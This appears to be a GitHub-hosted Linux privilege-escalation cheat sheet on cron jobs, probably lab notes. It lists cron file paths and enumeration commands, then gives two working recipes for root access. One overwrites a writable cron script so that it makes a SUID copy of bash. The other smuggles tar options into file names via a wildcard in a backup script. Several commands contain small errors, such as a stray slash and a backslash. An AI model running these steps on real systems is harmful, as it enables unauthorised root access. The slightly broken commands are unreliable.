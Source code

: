 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   
### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
          
          
          
          
   ## overwrite.sh Exploit
   
         echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
         chmod +x /home/user/overwrite.sh
         /tmp/bash -p




   ## compress.sh
   
      cat <PATH=compress.sh>
      
   ## OUTPUT
   
          #!/bin/sh
          cd /home/user
          tar czf /tmp/backup.tar.gz *
          
   ## Exploit wildcards
   
        echo 'cp /bin/bash/ /tmp/bash; chmod +s /tmp/bash' > asif.sh
        chmod 777 asif.sh
        touch /home/user/--checkpoint=1
        touch /home/user/--checkpoint-action=exec=sh\asif.sh
        /tmp//bash -p
        
        
        
        
        
   
   
   
   
   
     
